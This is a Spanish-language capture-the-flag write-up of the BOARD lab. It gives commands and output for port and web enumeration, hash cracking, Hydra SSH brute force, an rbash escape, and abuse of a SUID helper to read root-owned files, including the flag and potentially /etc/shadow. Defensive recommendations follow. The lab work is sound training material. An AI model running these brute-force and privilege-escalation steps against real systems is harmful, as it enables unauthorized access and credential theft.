








# Auditoría de Seguridad — Laboratorio BOARD

**Plataforma:** Whoami-Labs  
**Objetivo:** `172.17.0.2`  
**Dificultad:** Hard  
**Categoría:** SUID & Sudo — MITRE `T1548.001`  
**Fecha de ejecución:** 13–14 de noviembre de 2026  
**Analista:** chifay  
**Directorio de trabajo:** `~/Whoami-Labs/BOARD`  
**Resultado:** Compromiso total del host y lectura de la flag de `root`.

> **Versión pública:** la flag, los hashes, el token del panel, la cuenta de mantenimiento y las contraseñas han sido redactados en el texto y difuminados en las capturas.

---

## 1. Resumen ejecutivo

El laboratorio **BOARD** simula un servidor Apache con SSH que expone documentación interna y utiliza codificaciones clásicas para “proteger” un panel de operaciones. La cadena de compromiso fue:

1. Descubrimiento de los servicios SSH y HTTP.
2. Enumeración web y hallazgo del listado de directorio `/docs/`.
3. Descarga de `database.sql`, `hash.txt` y `notes.txt`.
4. Análisis de ROT13 y César para recuperar el token del panel: `[REDACTED]`.
5. Obtención de pistas sobre la cuenta de mantenimiento y el binario auxiliar.
6. Fuerza bruta de credenciales SSH débiles: `board:[REDACTED]`.
7. Acceso SSH con shell restringida (`rbash`).
8. Escape de `rbash` mediante una nueva instancia de Bash sin perfiles.
9. Enumeración de binarios SUID y abuso de `/usr/local/bin/.syslog-helper` para leer archivos privilegiados.
10. Lectura de `/root/flag.txt`.

**Flag obtenida:**

```text
BOARD{REDACTED}
```

El punto crítico no fue obtener una shell de `root`, sino la **primitiva de lectura arbitraria de archivos con privilegios** que ofrecía el binario SUID. Un SUID mal diseñado puede comprometer la confidencialidad de todo el sistema sin necesidad de una shell privilegiada.

---

## 2. Alcance y metodología

### 2.1 Alcance

- Host objetivo: `172.17.0.2` (contenedor del laboratorio).
- Servicios observados: `22/tcp` (SSH) y `80/tcp` (HTTP).
- Pruebas realizadas exclusivamente dentro del entorno autorizado de Whoami-Labs.

### 2.2 Fases

| Fase | Actividad | Herramientas |
|---|---|---|
| Reconocimiento | Descubrimiento de puertos y versiones | `nmap` |
| Enumeración web | Fuzzing de directorios, listados, archivos expuestos | `gobuster`, `feroxbuster`, `curl` |
| Análisis | ROT13, César, hashes MD5 | `tr`, `python3`, `john`/`hashcat` |
| Acceso | Fuerza bruta SSH y validación de credenciales | `hydra`, `sshpass`, `ssh` |
| Post-explotación | Shell restringida, escape, SUID | Bash, `find`, `file`, GTFOBins |

### 2.3 Mapeo MITRE ATT&CK

| Táctica | Técnica | ID |
|---|---|---|
| Reconnaissance | Active Scanning: Vulnerability Scanning | `T1595.002` |
| Reconnaissance | Gather Victim Host Information: Software | `T1592.002` |
| Discovery | File and Directory Discovery | `T1083` |
| Credential Access | Unsecured Credentials: Credentials In Files | `T1552.001` |
| Credential Access | Brute Force: Password Guessing | `T1110.001` |
| Initial Access | Valid Accounts: Local Accounts | `T1078.003` |
| Privilege Escalation | Abuse Elevation Control Mechanism: Setuid and Setgid | `T1548.001` |
| Collection | Data from Local System | `T1005` |

**NIST:** `OM-ADM-001 (System Administrator)` — gestión de privilegios, cuentas y configuraciones del sistema.

---

## 3. Reconocimiento

Se realizó un escaneo completo de puertos TCP y detección de versiones:

```bash
nmap -p- --min-rate 3000 -T4 -n -Pn 172.17.0.2 -oN nmap/board_ports.txt
nmap -sC -sV -p22,80 -Pn 172.17.0.2 -oN nmap/board_services.txt
```

**Resultado:**

- `22/tcp` — OpenSSH 8.9p1 Ubuntu 3ubuntu0.14.
- `80/tcp` — Apache httpd 2.4.52 (Ubuntu).
- Sistema Linux; página por defecto de Apache en `/`.

El host no expone más servicios. La superficie inicial se reduce a SSH y HTTP, por lo que la enumeración web se convierte en la vía principal.



---

## 4. Enumeración web e información expuesta

### 4.1 Descubrimiento de rutas

```bash
gobuster dir -u http://172.17.0.2 \
  -w /usr/share/wordlists/dirb/common.txt \
  -t 50 --no-error
```

Hallazgos relevantes:

| Ruta | Estado | Observación |
|---|---|---|
| `/docs/` | 301 → 200 | Listado de directorio habilitado |
| `/index.php` | 200 | Aplicación BOARD |
| `/panel.php` | 200 | Panel de operaciones; referenciado desde `index.php` |
| `/server-status` | 403 | Acceso restringido |
| `/index.html` | 200 | Página por defecto de Apache |



El listado de `/docs/` expone tres archivos:

- `database.sql`
- `hash.txt`
- `notes.txt`

### 4.2 Archivos sensibles

```bash
curl -s http://172.17.0.2/docs/database.sql
curl -s http://172.17.0.2/docs/hash.txt
curl -s http://172.17.0.2/docs/notes.txt
```

**`database.sql`** contiene usuarios y hashes MD5:

```sql
INSERT INTO users VALUES (1,'svc_board','[HASH_1]');
INSERT INTO users VALUES (2,'legacy','[HASH_2]');
```

Los hashes se crackearon con John the Ripper:

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt loot/hashes.txt
john --show --format=raw-md5 loot/hashes.txt
```

```text
[HASH_1] -> [REDACTED]
[HASH_2] -> [REDACTED]
```

Los usuarios `svc_board` y `legacy` no existen en `/etc/passwd` del host, por lo que las credenciales crackeadas no permitieron autenticarse por SSH. El material seguía siendo útil como contexto y confirmaba una política de contraseñas pobre.

**`hash.txt`** está codificado en ROT13:

```text
uggcf://obyneq/yvc/obneq/cnary.cuc
a: [REDACTED]
svany-erfgber.gkg
```

Decodificado:

```text
https://board/lip/board/panel.php
n: [REDACTED]
final-restore.txt
```

**`notes.txt`** aporta pistas sobre el diseño del laboratorio:

- Exposición pública de `/docs/` que debía eliminarse.
- Panel “protegido con César” para la demo.
- La frase de acceso hace referencia al antiguo apodo del operador.
- Una pista “wet/dry” para la cuenta de mantenimiento.
- Un binario auxiliar (“helper”) que sobrevivió a la limpieza.



> **Observación:** `hash.txt` referencia `final-restore.txt`, pero ese archivo no aparece en el listado de `/docs/` de esta instancia. Tras obtener acceso se buscó en el sistema (`find / -iname "*final*restore*"`) y tampoco se localizó. El panel web sustituye esa pista con la información de la cuenta de mantenimiento. Esta inconsistencia se documenta como hallazgo informativo.

---

## 5. Análisis de codificaciones y acceso al panel

### 5.1 ROT13

ROT13 es un caso particular de cifrado César con desplazamiento 13. Se decodificaron los tres artefactos:

```bash
echo 'uggcf://obyneq/yvc/obneq/cnary.cuc' | tr 'A-Za-z' 'N-ZA-Mn-za-m'
echo 'a: [REDACTED]' | tr 'A-Za-z' 'N-ZA-Mn-za-m'
echo 'svany-erfgber.gkg' | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

Resultado:

```text
https://board/lip/board/panel.php
n: [REDACTED]
final-restore.txt
```

La línea `n: [REDACTED]` se interpreta como **nombre: [REDACTED]**. El apodo del antiguo operador es `[REDACTED]`.

> La ruta histórica `/lip/board/panel.php` (sobre `http://172.17.0.2`) devuelve `404` en esta instancia; el panel activo y accesible es `/panel.php`. El artefacto parece conservar una ruta de la migración anterior.

### 5.2 Pista César del index

La aplicación ofrece una pista en `/index.php?hint=1`:

```text
Wkh rog rshudwru qlfnqdph vwloo rshqv wkh sdqho
```

Es un César con desplazamiento 3. Decodificada:

```text
The old operator nickname still opens the panel
```

Por tanto, el token del panel es `[REDACTED]`.

### 5.3 Panel de operaciones

```bash
curl -s 'http://172.17.0.2/panel.php?token=[REDACTED]'
```

Respuesta relevante:

```text
Welcome back, operator.

Pending reminder:
maintenance account still enabled
user: [REDACTED]
password policy: same old migration mnemonic, wet then dry, joined with hyphens and zeros

The infra audit kept complaining about a helper binary that survived cleanup,
but nobody escalated the ticket.
```

El panel confirma:

- Una cuenta de mantenimiento llamada `[REDACTED]`.
- Una política de contraseña basada en una “mnemónica de migración” (`wet-dry-0` y variantes).
- La existencia de un binario auxiliar privilegiado.
- Que el panel usa una comparación simple de token, sin autenticación real ni rate limiting.



### 5.4 Intento con la política “wet/dry”

Se probaron variantes de la política para `[REDACTED]` y `board`:

```text
wet-dry-0, wet-dry-00, ... , wet-dry-0000
wetdry0, wet-dry, wet_dry_0, Wet-Dry-0, ...
```

Ninguna funcionó. La pista “wet/dry” es un señuelo o una política obsoleta. La cuenta `[REDACTED]` existe en el sistema (`/bin/bash`), pero no se encontró una contraseña válida para ella.

---

## 6. Obtención de credenciales SSH

Con el patrón habitual de credencial débil (usuario + año) y el rango de cuatro dígitos como hipótesis, se generó el diccionario completo:

```bash
seq -w 0000 9999 | sed 's/^/board/' > ssh/list_board.txt
wc -l ssh/list_board.txt
```

Resultado: **10.000 candidatos** (`board0000` … `board9999`).

Para la captura de evidencia se ejecutó Hydra sobre el rango de años `2000–2026`, que contiene el año actual:

```bash
seq -w 2000 2026 | sed 's/^/board/' > ssh/list_board_years.txt
hydra -l board -P ssh/list_board_years.txt -t 16 -f ssh://172.17.0.2
```

Resultado:

```text
[22][ssh] host: 172.17.0.2   login: board   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
```

**Credencial válida:** `board:[REDACTED]`.

La contraseña sigue el patrón `board` + año actual, un caso clásico de credencial de migración débil y predecible.



---

## 7. Acceso inicial y shell restringida

```bash
sshpass -p '[REDACTED]' ssh board@172.17.0.2
```

La cuenta `board` tiene como shell `/bin/rbash`:

```text
uid=1000(board) gid=1000(board) groups=1000(board)
SHELL=/bin/rbash
```

Restricciones observadas:

```text
board@board:~$ cd /tmp
-rbash: cd: restricted
```

`/etc/passwd` confirma las shells:

```text
board:x:1000:1000::/home/board:/bin/rbash
[REDACTED]:x:1001:1001::/home/[REDACTED]:/bin/bash
```

`rbash` limita comandos con `/`, redirecciones, `cd`, etc., pero **no es una frontera de seguridad**. El perfil de la cuenta apunta el `PATH` a `~/bin`, que contiene enlaces simbólicos a un conjunto reducido de comandos (`cat`, `echo`, `find`, `grep`, `id`, `ls`, `pwd`). Además, la restricción no impide invocar `bash` como comando remoto, como se muestra en la sección siguiente.



---

## 8. Escape de la shell restringida

La restricción se elude solicitando una nueva instancia de Bash sin archivos de perfil y con una PTY forzada:

```bash
sshpass -p '[REDACTED]' ssh -tt board@172.17.0.2 "bash --noprofile --norc"
```

Resultado:

```text
bash-5.1$ id
uid=1000(board) gid=1000(board) groups=1000(board)
bash-5.1$ echo "shell=$0"
shell=bash
bash-5.1$ pwd
/home/board
```

`$0` pasa a ser `bash` y desaparecen las restricciones de `rbash`. Técnica equivalente a las documentadas en GTFOBins para escapar de shells restringidas invocando un intérprete o binario que permite ejecutar comandos.



---

## 9. Escalada de privilegios: SUID `.syslog-helper`

### 9.1 Enumeración de SUID

Dentro de la Bash sin restricciones:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Además de los binarios estándar (`su`, `sudo`, `passwd`, `mount`, etc.), aparece un binario fuera de lo común:

```text
/usr/local/bin/.syslog-helper
```

El nombre comienza con punto, lo que lo oculta de un `ls` convencional. Es propiedad de `root` y tiene el bit SUID:

```bash
ls -al /usr/local/bin/.syslog-helper
file /usr/local/bin/.syslog-helper
```

```text
-rwsr-xr-x 1 root root 100936 Apr  4  2026 /usr/local/bin/.syslog-helper
/usr/local/bin/.syslog-helper: setuid ELF 64-bit LSB pie executable, x86-64,
version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=389d630b8809ed0e5423b2ace555a7a70832ed84, for GNU/Linux 3.2.0, stripped
```

### 9.2 Comportamiento

El helper se comporta como una versión de `nl` (numerador de líneas de GNU coreutils). Al recibir una ruta, imprime el contenido del archivo **con la identidad efectiva de `root`** (`euid=0`), sin validar que la ruta sea legible por el usuario que lo invoca.

### 9.3 Lectura de la flag

```bash
/usr/local/bin/.syslog-helper /root/flag.txt
```

Salida:

```text
     1	BOARD{REDACTED}
```

El archivo `/root/flag.txt` no es accesible directamente por `board`, pero el SUID sí lo lee.



### 9.4 Impacto

La primitiva permite lectura arbitraria de archivos con privilegios de `root`, por ejemplo:

- `/etc/shadow` (hashes de contraseñas).
- `/root/.ssh/id_rsa` (clave privada de root, si existe).
- `/root/.bash_history`.
- Configuraciones y secretos de aplicaciones.

No fue necesario obtener una shell de `root`; la lectura privilegiada basta para cumplir el objetivo y demuestra un fallo grave de confidencialidad.

---

## 10. Hallazgos

| ID | Hallazgo | Severidad | Impacto |
|---|---|---|---|
| F-01 | Listado de directorio habilitado en `/docs/` con archivos internos | Alta | Divulgación de usuarios, hashes y pistas de diseño |
| F-02 | Hashes MD5 débiles y credenciales reutilizadas | Alta | Crackeo trivial; contexto para ataques de acceso |
| F-03 | Panel con token estático (`[REDACTED]`) y sin autenticación/rate limiting | Media | Acceso a información interna; pistas de escalada |
| F-04 | Credencial SSH débil `board:[REDACTED]` | Crítica | Acceso inicial como usuario local |
| F-05 | `rbash` como única barrera de shell | Media | Escape trivial mediante Bash/intérprete |
| F-06 | SUID `/usr/local/bin/.syslog-helper` con lectura arbitraria | Crítica | Lectura de cualquier archivo de `root`, incluida la flag |
| F-07 | Referencia a `final-restore.txt` inexistente en el despliegue | Informativa | Inconsistencia de contenido; no explotable |
| F-08 | Sin bloqueo efectivo ante fuerza bruta SSH | Media | Permite miles de intentos de contraseña |
| F-09 | Página por defecto de Apache y versiones expuestas | Baja | Fingerprinting y ruido operacional |

---

## 11. Recomendaciones

### 11.1 Contención inmediata

1. **Rotar** la contraseña de `board` y revisar todas las cuentas locales.
2. **Eliminar el bit SUID** de `/usr/local/bin/.syslog-helper`:
   ```bash
   chmod u-s /usr/local/bin/.syslog-helper
   ```
   Si el helper no es necesario, retirarlo del sistema.
3. **Sacar `/docs/` del DocumentRoot** y deshabilitar los listados de directorio:
   ```apache
   Options -Indexes
   ```
4. Revisar y eliminar cualquier secreto, hash o credencial en archivos públicos.

### 11.2 Endurecimiento

- Sustituir MD5 por **Argon2id**, bcrypt o scrypt con salt y coste adecuado.
- Prohibir patrones de contraseña predecibles (`usuario` + año, `usuario` + 4 dígitos).
- Deshabilitar autenticación por contraseña en SSH y exigir claves:
  ```text
  PasswordAuthentication no
  PubkeyAuthentication yes
  PermitRootLogin no
  ```
- Implementar **fail2ban** o bloqueo de cuentas tras intentos fallidos.
- Restringir el acceso SSH por usuario, origen y grupos.
- No confiar en `rbash` como control de seguridad: usar `ForceCommand`, contenedores, `AppArmor`/`SELinux` y privilegios mínimos.
- Auditar binarios SUID personalizados:
  ```bash
  find / -perm -4000 -type f -ls 2>/dev/null
  ```
- Revisar `/usr/local/bin`, archivos ocultos y binarios fuera de los paquetes.
- El helper debe validar la ruta, aplicar una lista blanca, evitar enlaces simbólicos y **dropear privilegios** antes de abrir el archivo.
- Eliminar la página por defecto de Apache y minimizar los banners de versión (`ServerTokens Prod`, `ServerSignature Off`).
- Proteger el panel con autenticación real, sesiones, MFA y rate limiting; no usar un token estático en la URL.
- Revisar la coherencia del contenido del laboratorio: `final-restore.txt` se referencia pero no se publica.

### 11.3 Monitorización

- Alertas por picos de intentos SSH fallidos y por uso de `hydra`/`sshpass`.
- Detección de ejecución de binarios SUID inusuales y de `find -perm -4000`.
- Monitorización de accesos a `/docs/` y de enumeración web (404/403 masivos).
- Auditoría periódica de cuentas, shells y permisos.

---

## 12. Evidencias y artefactos

| Captura | Contenido |
|---|---|
| `screenshots/01_recon.png` | Escaneo completo y detección de versiones |
| `screenshots/02_web_enum.png` | Gobuster y listado de `/docs/` |
| `screenshots/03_disclosure.png` | `database.sql`, `hash.txt`, `notes.txt` |
| `screenshots/04_decode_panel.png` | ROT13, César y panel `[REDACTED]` |
| `screenshots/05_hydra.png` | Fuerza bruta y credencial `[REDACTED]` |
| `screenshots/06_ssh_rbash.png` | Acceso SSH y restricciones `rbash` |
| `screenshots/07_escape.png` | Escape a Bash sin restricciones |
| `screenshots/08_suid_flag.png` | SUID `.syslog-helper` y flag |

Los artefactos de texto (escaneos, respuestas HTTP, diccionarios y logs) no se publican porque contienen credenciales, hashes e información sensible. Se conservan en el entorno local de laboratorio.

---

## 13. Conclusión

BOARD demuestra cómo una combinación de **exposición de información**, **codificaciones débiles**, **credenciales predecibles** y **configuraciones de privilegios** permite comprometer un sistema completo sin necesidad de una vulnerabilidad de memoria o de una shell de root.

La lección principal es que `rbash` no es un mecanismo de seguridad suficiente y que un binario SUID con lectura arbitraria de archivos es equivalente a un compromiso total de confidencialidad. La mitigación debe centrarse en eliminar la exposición, rotar credenciales, aplicar mínimo privilegio y auditar binarios SUID personalizados.

**Flag final:**

```text
BOARD{REDACTED}
```
